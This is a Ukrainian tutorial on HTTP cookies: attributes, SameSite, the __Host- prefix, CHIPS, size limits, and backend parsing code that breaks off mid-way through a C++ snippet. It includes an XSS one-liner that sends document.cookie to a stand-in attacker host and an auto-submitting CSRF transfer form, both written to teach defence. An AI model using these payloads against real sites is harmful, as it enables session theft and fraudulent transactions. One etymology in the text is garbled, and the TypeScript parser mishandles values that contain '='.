



# HTTP-cookie

<preknowlist>
- [HTTP](book:programming/http) — модель «запит → відповідь», заголовки, методи, безпам'ятна природа протоколу.
- [REST](book:programming/rest-api) — ресурси, клієнт-серверна архітектура та розділення відповідальності.
- [Автентифікація](book:programming/authentication) — як користувач підтверджує свою особу та чому перевірка не може повторюватися на кожному кроці.
- [Сесія автентифікації](book:programming/session-management) — як сервер пам'ятає стан між безпам'ятними запитами за допомогою тимчасового номерка.
- [CSRF (міжсайтова підробка запиту)](book:programming/csrf) — як автоматичне надсилання облікових даних стороннім сайтом створює вразливість.
</preknowlist>

Користувач відкриває інтернет-магазин, додає товар до кошика, переходить на сторінку оплати, і браузер відправляє новий HTTP-запит. Для сервера цей запит виглядає абсолютно чистим: протокол HTTP (від грец. *πρωτόколлон* — «перший аркуш», набір правил передачі) не має вбудованої пам'яті про минулі події. Кожне з'єднання та кожна пара «запит–відповідь» обробляються ізольовано, без знання про те, що відбувалося секунду тому. Якби браузер не мав механізму автоматичного зв'язування цих дій у єдиний ланцюжок, користувачеві доводилося б вводити логін і пароль на кожному кліку або розробникам довелося б дописувати ідентифікатори стану в кожен URL сайту, перетворюючи посилання на вразливі й одноразові конструкції.

Розв'язанням цієї суперечності став механізм **cookie** (з англ. *magic cookie* — «магічне печиво», непрозорий жетон стану в операційних системах). Cookie — це компактний іменований блок даних, який сервер передає клієнтові у відповіді, а клієнт зберігає в себе й автоматично прикріплює до кожного наступного запиту до цього ж ресурсу. Як саме цей винахід виник для порятунку електронної комерції 1994 року та чому індустрії знадобилося два десятиліття для створення єдиного стандарту, докладно розповідає [історію створення cookie Лу Монтуллі для MCI та еволюцію стандартів від Netscape до RFC 6265](book:programming/http-cookies/hist-magic-cookie.md).

## Два заголовки й одна асиметрія: як браузер возить стан

Уся взаємодія будується навколо двох HTTP-заголовків: `Set-Cookie` з боку сервера та `Cookie` з боку браузера. Попри уявну простоту, між ними існує фундаментальна інженерна асиметрія, нерозуміння якої призводить до найпоширеніших помилок веб-безпеки.

Коли сервер хоче зберегти стан на клієнті, він додає до своєї відповіді один або кілька заголовків `Set-Cookie`. Кожен такий заголовок містить обов'язкову пару `ім'я=значення`, за якою слідує перелік необов'язкових керуючих директив (від лат. *directio* — «напрям», вказівка поведінки):

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: sid=k8d9f2a7bc; Path=/; Domain=example.com; Secure; HttpOnly; SameSite=Lax
Set-Cookie: theme=dark; Path=/; Max-Age=31536000; SameSite=Lax
```

Отримавши таку відповідь, браузер розбирає заголовок і зберігає запис у власному внутрішньому сховищі — **Cookie Jar** (від англ. *cookie jar* — «банка з печивом»). У сучасних браузерах (Chromium, Firefox, Safari) Cookie Jar реалізовано як локальну реляційну базу даних (SQLite) із криптографічним шифруванням значень ключами операційної системи (DPAPI у Windows, Keychain у macOS, libsecret у Linux). Це гарантує, що сторонні програми чи непривілейовані процеси не зможуть прочитати чутливі сесійні ключі прямо з диска користувача.

З цього моменту браузер бере на себе всю рутинну роботу: перед кожним відправленням будь-якого наступного запиту (завантаження HTML, картинки, шрифту, AJAX-виклику `fetch`) він перевіряє правила відповідності. Якщо запит підпадає під заданий домен, шлях і рівень безпеки, браузер формує єдиний заголовок `Cookie`:

```http
GET /profile HTTP/1.1
Host: example.com
Cookie: sid=k8d9f2a7bc; theme=dark
```



*Сервер задає директиви збереження у заголовку Set-Cookie; браузер зберігає запис у локальному сховищі й самостійно додає рядок «ім'я=значення» до кожного наступного запиту, що відповідає домену й шляху.*

У цьому механізмі закладено ключову асиметрію: **сервер задає директиви збереження (`Secure`, `HttpOnly`, `Path`, `Domain`), але клієнт назад їх ніколи не надсилає**.

Сервер бачить лише голі пари `ім'я=значення`. Він не знає, чи це cookie було встановлено як `Secure`, чи воно прийшло з кореневого домену `example.com` або з піддомену `api.example.com`, і скільки секунд життя йому залишилося. Уся валідація директив покладена виключно на чесність і коректність браузера.

## Час життя: сесійні проти постійних та пастка розбіжності годинників

За часом життя всі cookie поділяються на два класи:
1. **Сесійні cookie (Session Cookies):** не містять жодних директив завершення строку (`Expires` чи `Max-Age`). Вони існують виключно в оперативній пам'яті браузера. Щойно користувач закриває браузер (завершує сеанс роботи), операційна система звільняє пам'ять, і сесійні cookie безповоротно зникають.
2. **Постійні cookie (Persistent Cookies):** містять яскраву вказівку строку дії. Браузер записує їх у енергонезалежне сховище (дискову базу даних SQLite або текстовий журнал профілю) і зберігає між перезапусками програми й перезавантаженнями комп'ютера.

Для керування постійними cookie стандарт RFC 6265 надає дві директиви: застарілу `Expires` та сучасну `Max-Age`.

Директива `Expires` задає фіксовану дату й час у форматі HTTP-date за стандартом RFC 1123 в часовому поясі GMT (UTC):

```http
Set-Cookie: token=xyz; Expires=Wed, 21 Oct 2026 07:28:00 GMT; Path=/
```

Головна вада `Expires` полягає в її залежності від системного годинника клієнта. Якщо годинник на комп'ютері користувача відстає на дві години (або користувач вручну перевів дату назад), браузер вважатиме застаріле cookie свіжим. Якщо годинник користувача поспішає, браузер знищить cookie негайно після отримання, і авторизація впаде.

Директива `Max-Age` розв'язує цю проблему, оскільки задає відносний інтервал життя в секундах від моменту отримання:

```http
Set-Cookie: token=xyz; Max-Age=3600; Path=/
```

`Max-Age=3600` означає: рівно 1 годину (3600 секунд) з миті обробки відповіді. Системний час клієнта не впливає на відлік. Усі сучасні браузери надають суворий пріоритет `Max-Age` над `Expires`. Проте сервери часто відправляють обидва параметри одночасно заради зворотної сумісності зі старими веб-краулерами або застарілими бібліотеками.

Щоб **видалити cookie на клієнті**, сервер не може відправити команду `Delete-Cookie` (такого заголовка не існує). Сервер відправляє те саме ім'я з порожнім значенням і директивою `Max-Age=0` (або `Expires` у далекому минулому):

```http
Set-Cookie: sid=; Max-Age=0; Expires=Thu, 01 Jan 1970 00:00:00 GMT; Path=/
```

Побачивши нульовий або від'ємний строк життя, браузер негайно видаляє відповідний запис зі свого сховища.

## Область видимості: Domain, Path і захист від наддоменних cookie

Браузер повинен точно знати, на які саме адреси дозволено відправляти збережені дані. Область видимості визначається двома параметрами: доменом (від лат. *dominium* — «володіння») та шляхом.

### Директива Domain: пастка явної вказівки
Поведінка директиви `Domain` містить важливий нюанс:
- **Якщо `Domain` НЕ вказано (Host-Only Cookie):** cookie надсилається **виключно** на той самий хост, що повернув заголовок. Якщо відповідь прийшла від `example.com`, cookie піде на `example.com`, але **не піде** на `api.example.com` чи `blog.example.com`.
- **Якщо `Domain` вказано явно (`Domain=example.com`):** браузер автоматично поширює дію cookie на вказаний домен **та на всі його піддомени будь-якого рівня вкладеності** (`api.example.com`, `dev.stage.example.com`).

Якщо застосунок не потребує спільного доступу до сесії між піддоменами, вказувати директиву `Domain` категорично заборонено. Опущення `Domain` створює максимально ізольоване Host-Only cookie.

### Список публічних суфіксів (Public Suffix List)
Без додаткових обмежень зловмисник, що володіє доменом `evil.co.uk`, міг би надіслати заголовок `Set-Cookie: sid=bad; Domain=co.uk`. Якби браузер прийняв такий запис, це так зване *супер-cookie* відправлялося б на всі сайти Великої Британії в зоні `.co.uk`, включаючи банківські та урядові ресурси.

Аналогічна загроза виникає на публічних хостингах і хмарних платформах. Якщо розробник розміщує сайт на `my-project.github.io` або `app.azurewebsites.net`, без спеціальних правил він міг би встановити cookie для всього домену `github.io`, перехоплюючи сесії сусідніх проєктів тисяч інших користувачів.

Щоб запобігти цьому, браузери використовують **Public Suffix List (PSL)** — підтримуваний спільнотою реєстр публічних доменних зон верхнього та другого рівнів (`.com`, `.org`, `.kiev.ua`, `.github.io`, `.aws.amazon.com`). Браузер блокує будь-яку спробу встановити `Domain`, якщо він є публічним суфіксом або стоїть вище зареєстрованого домену організації (eTLD+1).

### Директива Path: префікс маршрутизації
Директива `Path` обмежує відправлення cookie певним префіксом URL-шляху:

```http
Set-Cookie: admin_key=sec77; Path=/admin/
```

За такого налаштування cookie додаватиметься до запитів на `/admin/`, `/admin/users`, `/admin/settings`, але ігноруватиметься при звертанні до `/blog` чи `/shop`.

Важливо пам'ятти: **`Path` — це засіб маршрутизації та оптимізації трафіку, а не ізоляція безпеки**. Будь-який JavaScript-код, що виконується на сторінці `/blog`, може зробити асинхронний виклик `fetch('/admin/dashboard')` у межах того самого походження (Same Origin) і отримати дані разом із цими cookie або створити невидимий `iframe` для читання DOM.

## Фундамент безпеки: навіщо потрібні HttpOnly та Secure

Cookie часто зберігають найцінніші секрети веб-застосунку — ідентифікатори сесій, токени автентифікації чи CSRF-ключі. Перехоплення або викрадення цього значення означає повну компрометацію облікового запису користувача. Для захисту від двох головних векторів атак протокол надає прапорці `HttpOnly` та `Secure`.

### HttpOnly: захист від XSS-крадіжки
Міжсайтовий скриптинг (XSS, Cross-Site Scripting) виникає, коли зловмиснику вдається впорснути власний JavaScript-код у сторінку жертви (наприклад, через нефільтрований коментар чи поле профілю).

За замовчуванням будь-який скрипт на сторінці має доступ до властивості `document.cookie`. Зловмисний скрипт може виконати простий код:

```javascript
// Без HttpOnly токен сесії крадеться одним рядком:
new Image().src = "https://hacker.com/steal?c=" + encodeURIComponent(document.cookie);
```

Прапорець `HttpOnly` повністю ізолює cookie від середовища виконання браузерних скриптів. Властивість `document.cookie` більше не відображає цей запис, а JavaScript API (`fetch`, `XMLHttpRequest`) не можуть прочитати його значення. Браузер самостійно підставляє `HttpOnly`-cookie в мережеві заголовки, роблячи його невидимим для XSS-експлойтів.

### Secure: захист від перехоплення в мережі
Прапорець `Secure` забороняє браузеру передавати cookie через незашифровані HTTP-з'єднання.

Якщо сайт працює через HTTPS, але випадково містить посилання на незахищений ресурс (`http://example.com/logo.png`) або користувач увів у браузері адресу без префікса `https://`, браузер міг би надіслати незашифрований пакет по відкритій Wi-Fi мережі. Зловмисник, що прослуховує радіоефір у кав'ярні, миттєво перехопив би сесійний ключ у відкритому тексті. Директива `Secure` гарантує, що cookie залишить пристрій користувача виключно всередині криптографічного TLS-тунелю.

### Підписування HMAC та шифрування AEAD на стороні клієнта
Якщо бекенд не хоче зберігати стан сесії в серверній базі даних (наприклад, у сховищі Redis), він може зберігати серіалізований стан безпосередньо у значенні cookie на клієнті. Але довіряти сирим даним від клієнта не можна.

Для захисту клієнтських cookie застосовують два підходи:
1. **Підписані cookie (Signed Cookies):** до значення дописується криптографічний підпис HMAC-SHA256 із секретним ключем сервера (`sid=user42.HMAC_SIGNATURE`). Клієнт може прочитати дані, але будь-яка спроба змінити `user42` на `user01` зробить підпис недійсним, і сервер відхилить запит.
2. **Зашифровані cookie (Encrypted Cookies):** стан шифрується алгоритмом автентифікованого шифрування (AEAD, наприклад AES-256-GCM або ChaCha20-Poly1305). Клієнт бачить лише непрозорий бінарний шифротекст, що гарантує одночасно конфіденційність (користувач не бачить внутрішніх полів) та цілісність (сервер миттєво виявляє будь-яку підміну).

Головний недолік зберігання стану виключно у клієнтському cookie — неможливість миттєвого відкликання: якщо ключ скомпрометовано, він залишатиметься дійсним до закінчення свого `Max-Age`, якщо сервер не веде чорний список на своїй стороні.

### Захист від атак за часом (Timing Attacks)
Коли сервер валідує отриманий сесійний токен або перевіряє криптографічний підпис HMAC, порівняння рядків звичайним оператором рівності (`token === expected` або `strcmp()`) створює витік інформації: стандартні функції переривають перевірку на першому неспівпалому байті. Зловмисник, вимірюючи час відповіді сервера з точністю до мікросекунд, може побайтово підібрати валідний токен. Для порівняння сесійних секретів на бекенді застосовують функції константного часу (`crypto.timingSafeEqual` у Node.js, `secrets.compare_digest` у Python або `CRYPTO_memcmp` в OpenSSL).

## Атрибут SameSite: закриття діри CSRF та контекст запиту

Автоматичність передачі cookie має темний зворотний бік, відомий як **міжсайтова підробка запиту (CSRF, Cross-Site Request Forgery)**.

Уявімо ситуацію: користувач авторизувався у своєму банку `bank.com`, отримавши сесійне cookie `sid=9988`. Не закриваючи вкладку банку, він переходить на сторонній розважальний сайт `evil.com`. На сторінці `evil.com` сховано форму:

```html
<!-- Шкідлива сторінка на evil.com -->
<form action="https://bank.com/transfer" method="POST" id="hackForm">
  <input type="hidden" name="to" value="attacker_account" />
  <input type="hidden" name="amount" value="5000" />
</form>
<script>document.getElementById("hackForm").submit();</script>
```

Оскільки запит летить на адресу `bank.com`, старі браузери автоматично додавали до нього валідне cookie `sid=9988`. Сервер банку отримував запит, бачив дійсний сесійний токен і списував кошти, не маючи змоги відрізнити дію користувача від підробки.

Важливо розуміти, що політика **CORS (Cross-Origin Resource Sharing)** не рятує від CSRF: CORS блокує читання відповіді клієнтським JavaScript, але не блокує виконання самого запиту та зміну стану на сервері.

Для остаточного подолання цієї вразливості було розроблено атрибут `SameSite` (від англ. *same site* — «той самий сайт»). Він керує тим, чи дозволено додавати cookie до запитів, які ініціюються зі сторонніх сайтів (Cross-Site Context).

```http
Set-Cookie: sid=k8d9f2a7bc; Path=/; Secure; HttpOnly; SameSite=Lax
```



*Режим Strict блокує передачу cookie при будь-яких сторонніх переходах, Lax захищає від небезпечних фонових мутацій і POST-форм, а None вимагає шифрування Secure для роботи у сторонніх контекстах.*

### Розмежування Same-Origin та Same-Site
Щоб точно розуміти роботу `SameSite`, важливо розрізняти два поняття веб-безпеки:
- **Походження (Origin):** визначається суворою трійкою `(схема, хост, порт)`. Наприклад, `https://example.com:443` та `https://api.example.com:443` — це **різні Origin**.
- **Сайт (Site / Schemeful Same-Site):** визначається схемою (`http` чи `https`) та зареєстрованим доменом плюс один рівень (eTLD+1). Наприклад, `https://shop.example.com` та `https://auth.example.com` — це **один і той самий Site (Same-Site)**, оскільки обидва належать до зони `https://` та кореневого домену `example.com`.

Атрибут `SameSite` підтримує три режими:

1. **`SameSite=Strict`:** найсуворіша ізоляція. Cookie надсилається **лише тоді, коли джерело запиту й адреса призначення суворо збігаються**. Якщо користувач клацне на звичайне безпечне посилання на сайт `example.com` із листа електронної пошти чи пошуковика Google, cookie **не буде** надіслано в першому запиті, і користувач відкриє сторінку як неавторизований гість (доки не оновить сторінку вже всередині сайту).
2. **`SameSite=Lax`:** збалансований сучасний дефолт. Cookie надсилається при міжсайтових переходах **тільки за умови, що це безпечний перехід верхнього рівня (Top-Level Navigation з методом `GET`)** — наприклад, клік за посиланням `<a href="...">`. Якщо запит надсилається через `POST`-форму, теги ``, `<iframe>` чи виклик `fetch()`, cookie блокується.
3. **`SameSite=None`:** вимикає міжсайтові обмеження. Cookie додається до абсолютно всіх запитів, включаючи вбудовані віджети й фрейми на сторонніх ресурсах. Стандарт вимагає: `SameSite=None` **зобов'язаний супроводжуватися прапорцем `Secure`**. Спроба надіслати `SameSite=None` без `Secure` відкидається сучасними браузерами.

### Тонкощі поведінки: граційний період Lax та клієнтські редиректи
У реальних застосунках розробники часто стикаються з двома тонкими моментами:
- **Граційний період Lax у Chromium:** Для підтримки застарілих систем єдиного входу (SSO на базі SAML або OpenID Connect), де сторонній провайдер повертає користувача на сайт через POST-форму, Chromium історично мав тимчасовий режим `Lax-allowing-unsafe`: cookie без явної директиви `SameSite` дозволялися у міжсайтових POST-запитах протягом перших 2 хвилин після їх створення. Покладатися на цю поведінку в продакшені заборонено — сервери повинні явно вказувати `SameSite=Lax` або `SameSite=None; Secure`.
- **Ланцюжки перенаправлень (HTTP 302/307 vs JavaScript redirect):** Якщо зовнішній сайт надсилає користувача на проміжний сервіс, який відповідає `302 Found` і перенаправляє на цільовий сайт, браузер зберігає контекст первинного ініціатора переходу. `SameSite=Lax` cookie буде надіслано лише в тому випадку, якщо фінальний метод запиту після редиректу є безпечним (`GET`).

Повний синтаксичний перелік усіх параметрів, правил порівняння та граничних значень наведено у [довіднику директив, граматики BNF та правил збігу](book:programming/http-cookies/api-cookie-attributes.md).

## Атака через піддомени й порятунок префіксами `__Host-` та `__Secure-`

У великих організаціях різні підрозділи часто контролюють окремі піддомени: `shop.example.com`, `blog.example.com`, `user-pages.example.com`. Якщо зловмисник скомпрометує хоча б один другорядний піддомен (наприклад, застарілий блог), він може провести небезпечну атаку — **нав'язування cookie (Cookie Tossing)**.

Оскільки специфікація дозволяє піддомену встановлювати cookie для ширшого домену (`Set-Cookie: sid=attacker_token; Domain=example.com`), зламаний блог записує шкідливе cookie. Коли користувач заходить на головний сервіс `example.com`, браузер надсилає обидва cookie: одне справжнє (Host-Only від головного сервера) і одне підроблене (від піддомену).

Оскільки протокол HTTP передає лише рядок `Cookie: sid=val1; sid=val2` без зазначення джерела й без гарантованого порядку, головний сервер може прочитати токен зловмисника й авторизувати користувача в чужій сесії, перехоплюючи його приватні платіжні дані.

Щоб раз і назавжди позбавити піддомени можливості втручатися в стан кореневого сайту, стандарт RFC 6265bis запровадив **захисні префікси імен cookie**:



*Звичайні cookie зі значенням Domain поширюються на всі піддомени й піддаються атакам підміни; захисний префікс __Host- ізолює cookie виключно на поточному хості, вимагає HTTPS і закриває вектор втручання через піддомени.*

### Префікс `__Secure-`
Якщо ім'я cookie починається з `__Secure-`, браузер прийме його лише за таких умов:
- З'єднання встановлено виключно через **HTTPS**.
- У заголовку присутній обов'язковий прапорець **`Secure`**.

### Префікс `__Host-` (Золотий стандарт безпеки)
Якщо ім'я cookie починається з `__Host-`, браузер застосовує максимально жорсткий контракт:
- З'єднання встановлено через **HTTPS**.
- Присутній обов'язковий прапорець **`Secure`**.
- **Суворо заборонено вказувати директиву `Domain`** (cookie зобов'язане бути Host-Only).
- **Директива `Path` зобов'язана дорівнювати `/`** (`Path=/`).

```http
Set-Cookie: __Host-session=a78b9c; Path=/; Secure; HttpOnly; SameSite=Lax
```

Якщо сервер спробує передати `Set-Cookie: __Host-session=123; Domain=example.com`, браузер **відхилить такий заголовок**. Жоден піддомен у принципі не зможе створити, перетерти або затінити `__Host-` cookie для головного сайту.

### Міграція на префікс `__Host-` у продакшені без простою
Коли великий веб-сервіс із мільйонами активних сесій переходить на використання захисного префікса `__Host-`, одномоментна зміна назви розірвала б усі поточні сесії користувачів.

Для безшовного переходу застосовують двоетапну схему:
1. **Етап подвійного читання:** Серверний шар автентифікації перевіряє наявність нового cookie `__Host-sid`. Якщо воно відсутнє, сервер зчитує старе cookie `sid`.
2. **Етап підвищення захисту:** Якщо користувач прийшов зі старим `sid`, сервер після успішної валідації повертає відповідь із заголовком `Set-Cookie: __Host-sid=...` та одночасно надсилає заголовок скидання для старого `Set-Cookie: sid=; Max-Age=0; Path=/`.
3. **Завершення переходу:** Через 30–60 днів (коли всі активні клієнти оновлять свої cookie) код підтримки старого імені видаляється.

## Сторонні cookie, приватність і розділення за стандартом CHIPS

Cookie бувають **власними (First-party)** та **сторонніми (Third-party)**:
- Власне cookie встановлюється доменом, адреса якого відображається в адресному рядку браузера.
- Стороннє cookie встановлюється ресурсом, завантаженим із зовнішнього домену (наприклад, аналітичний скрипт, банер або вбудоване відео).

Протягом трьох десятиліть сторонні cookie були головним інструментом міжсайтового стеження: рекламна мережа, чий віджет розміщено на 10 000 різних сайтів, збирала єдиний профіль інтересів людини за унікальним номером у своєму cookie.

З 2020 по 2026 рік браузерна індустрія (Safari ITP, Firefox ETP, Chromium Privacy Sandbox) запровадила повне блокування непарційованих сторонніх cookie. Це зламало легітимні інтеграції: вбудовані чати підтримки, платіжні фрейми, хмарні віджети авторизації, які втратили змогу тримати стан.

Рішенням став новий стандарт **CHIPS (Cookies Having Independent Partitioned State)** та директива **`Partitioned`**:

```http
Set-Cookie: chat_session=w889; Path=/; Secure; SameSite=None; Partitioned
```

Директива `Partitioned` каже браузеру зберігати cookie в ізольованому розділі, ключ якого складається з пари: `(Сайт верхнього рівня, Домен вбудованого ресурсу)`. Якщо користувач користується чатом `chat-widget.com` на сайті `shop-a.com`, його сесія зберігається у розділі `(shop-a.com, chat-widget.com)`. Коли той самий користувач переходить на `shop-b.com`, віджет бачить абсолютно порожній розділ `(shop-b.com, chat-widget.com)` і не може зв'язати дії користувача докупи.

## Архітектурна дисципліна: ліміти розміру, податок на трафік і що не можна класти в cookie

Використання cookie накладає суворі обмеження на дизайн високонавантажених систем.

### 1. Податок на мережевий трафік
Кожне cookie, прив'язане до домену, автоматично додається до **кожного HTTP-запиту**, включаючи запити статичних ресурсів (`.css`, `.js`, `.png`, `.woff2`).

Якщо застосунок зберігає 3 кілобайти cookie на домені `example.com`, а сторінка завантажує 80 зображень і шрифтів, браузер відправить:

```
80 запитів × 3 КБ заголовків = 240 КБ зайвого трафіку
```

Ці 240 КБ передаються клієнтом у вихідному каналі (Upload), який на мобільних пристроях часто значно повільніший за вхідний канал, додаючи відчутну затримку до рендерингу сторінки.

**Архітектурне правило:** роздавати статичні ресурси з окремого домену без cookie (наприклад, `cdn-static.net` або `assets.example-media.com`), на якому ніколи не викликається `Set-Cookie`.

### 2. Вплив на стиснення заголовків HPACK і QPACK (HTTP/2 та HTTP/3)
У протоколах HTTP/2 та HTTP/3 для зменшення затримок застосовується стиснення заголовків: алгоритм HPACK (RFC 7541) та QPACK (RFC 9204). Вони використовують статичну таблицю стандартних заголовків та динамічну таблицю, що запам'ятовує рядки, надіслані раніше в поточному з'єднанні.

Коли клієнт відправляє стабільне cookie сесії, HPACK додає рядок `Cookie: __Host-sid=...` у динамічну таблицю, і у всіх наступних запитах цей заголовок передається у стислому вигляді як 1–2 байти індексу таблиці. Але якщо бекенд реалізує надмірну ротацію токенів або записує динамічні мітки часу в cookie на кожен клік, динамічна таблиця постійно перезаписується. Це призводить до марнування пам'яті таблиці, зниження коефіцієнта стиснення та зростання навантаження на процесори серверів.

### 3. Ліміти розміру та помилка HTTP 431
Специфікація вимагає від браузерів гарантувати зберігання щонайменше 4096 байтів на одне cookie і не менше 50 cookie на домен.

Якщо сервер або кілька клієнтських бібліотек переповнюють сховище, сумарний розмір заголовка `Cookie` може перевищити 8–16 КБ. Більшість веб-серверів (Nginx, Envoy, Node.js, Apache) за замовчуванням мають обмеження на розмір вхідного буфера заголовків і повертають клієнтові аварійну помилку **`431 Request Header Fields Too Large`**. Користувач бачить білий екран помилки, доки повністю не очистить кеш браузера.

### 4. Архітектурний вибір: Cookie проти заголовка Authorization у клієнтських SPA
У сучасній розробці односторінкових застосунків (SPA на React, Vue, Angular) часто постає питання: де зберігати токени доступу (JWT) — у `localStorage` чи в `HttpOnly` cookie?

Зберігання токенів у клієнтському сховищі `localStorage` чи `sessionStorage` робить їх миттєвою здобиччю для будь-якої XSS-вразливості на сторінці: сторонній скрипт аналітики або скомпрометована npm-залежність може прочитати сховище одним рядком JavaScript і відправити ключ зловмиснику.

Використання сесійних `HttpOnly + Secure + SameSite=Lax` cookie повністю усуває загрозу викрадення токена через XSS. Для архітектур із мікросервісним бекендом найкращим патерном є **BFF (Backend-For-Frontend)**: браузер спілкується з легким шлюзом через захищені `__Host-` cookie, а шлюз самостійно підставляє токени `Authorization: Bearer` у внутрішні запити до сервісів платформи.

### 5. Що заборонено зберігати всередині cookie
Cookie — це транспорт, а не сховище бази даних.
- ❌ **Заборонено:** зберігати сирі персональні дані (паролі, номери карток, ролі `isAdmin=true`, баланс рахунку). Клієнт може підробити будь-яке незахищене значення.
- ❌ **Заборонено:** класти великі нестислі JSON-об'єкти.
- ✅ **Правильно:** зберігати або випадковий невгадний номер сесії з криптографічного генератора (CSPRNG), або криптографічно підписаний/зашифрований автентифікованим шифруванням токен (AEAD).

## Практичний виклик: читання, запис та видалення cookie на бекенді

Розглянемо повноцінний приклад безпечного керування cookie у бекенд-обробниках на TypeScript, Python та C++. Приклад реалізує створення захищеної сесії з префіксом `__Host-`, перевірку вхідного заголовка та коректне видалення при виході.

:::tabs
```ts
import { IncomingMessage, ServerResponse } from "node:http";

interface SessionUser {
  userId: string;
  role: string;
}

// Проста імітація сховища сесій
const sessionStore = new Map<string, SessionUser>();

/**
 * Парсинг вхідного заголовка Cookie
 */
function getCookie(req: IncomingMessage, name: string): string | null {
  const header = req.headers.cookie;
  if (!header) return null;

  const matches = header.split(";");
  for (const item of matches) {
    const [k, v] = item.trim().split("=");
    if (k === name && v) {
      return decodeURIComponent(v);
    }
  }
  return null;
}

/**
 * Безпечна установка сесійного cookie з префіксом __Host-
 */
function setSessionCookie(res: ServerResponse, sid: string): void {
  // Використовуємо суворий префікс __Host- для захисту від піддоменів
  const cookieValue = [
    `__Host-sid=${encodeURIComponent(sid)}`,
    "Path=/",
    "Max-Age=86400",          // 24 години
    "HttpOnly",               // захист від XSS
    "Secure",                 // передача тільки через HTTPS
    "SameSite=Lax"            // захист від CSRF
  ].join("; ");

  res.setHeader("Set-Cookie", cookieValue);
}

/**
 * Видалення сесійного cookie
 */
function clearSessionCookie(res: ServerResponse): void {
  res.setHeader("Set-Cookie", "__Host-sid=; Path=/; Max-Age=0; HttpOnly; Secure; SameSite=Lax");
}

export function handleLogin(res: ServerResponse, userId: string, sid: string): void {
  sessionStore.set(sid, { userId, role: "member" });
  setSessionCookie(res, sid);
  res.writeHead(200, { "Content-Type": "application/json" });
  res.end(JSON.stringify({ status: "logged_in" }));
}
```
```py
import urllib.parse
from typing import Optional, Dict

class SessionManager:
    def __init__(self):
        self.session_store: Dict[str, dict] = {}

    def get_cookie(self, cookie_header: Optional[str], name: str) -> Optional[str]:
        """Парсинг cookie з сирого заголовка запиту."""
        if not cookie_header:
            return None

        for part in cookie_header.split(";"):
            part = part.strip()
            if "=" in part:
                k, v = part.split("=", 1)
                if k.strip() == name:
                    return urllib.parse.unquote(v.strip())
        return None

    def create_session_header(self, sid: str) -> str:
        """Генерація Set-Cookie із захисним префіксом __Host-."""
        encoded_sid = urllib.parse.quote(sid, safe="")
        directives = [
            f"__Host-sid={encoded_sid}",
            "Path=/",
            "Max-Age=86400",        # 24 години
            "HttpOnly",             # невидимо для JS
            "Secure",               # тільки HTTPS
            "SameSite=Lax"          # захист від CSRF
        ]
        return "; ".join(directives)

    def create_logout_header(self) -> str:
        """Скидання cookie через нульовий Max-Age."""
        return "__Host-sid=; Path=/; Max-Age=0; HttpOnly; Secure; SameSite=Lax"
```
```cpp
#include <string>
#include <string_view>
#include <sstream>
#include <optional>
#include <unordered_map>

namespace backend {

class CookieUtility {
public:
    // Парсер значення за іменем
    static std::optional<std::string> get_cookie(std::string_view cookie_header, std::string_view name) {
        if (cookie_header.empty() || name.empty()) {
            return std::nullopt;
        }

        size_t start = 0;
        while (start < cookie_header.size()) {
            size_t end = cookie_header.find(';', start);
            if (end == std::string_view::npos) end = cookie_header.size();

            std::string_view token = cookie_header.substr(start, end - start);
            // Видалення пробілів
            while (!token.empty() && token.front() == ' ') token.remove_prefix(1);
            while (!token.empty() && token.back() == ' ') token.remove_suffix(1);

            size_t eq_pos = token.find('=');
            if (eq_pos != std::string_view::npos) {
                std::string_view k = token.substr(0, eq_pos);
